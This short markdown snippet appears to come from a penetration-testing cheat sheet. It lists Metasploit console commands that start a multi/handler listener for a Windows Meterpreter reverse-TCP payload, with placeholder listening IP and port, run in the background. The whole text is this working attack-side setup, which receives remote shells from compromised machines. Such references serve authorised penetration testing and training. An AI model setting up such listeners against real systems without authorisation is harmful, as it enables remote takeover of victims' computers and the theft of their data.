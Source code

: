 # Metasploit

## Meterpreter handler
```
msf> use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf  exploit(handler) > set LHOST <Listening_IP>
msf exploit(handler) > set LPORT <Listening_Port>
msf exploit(handler) > run -j # run in background
```


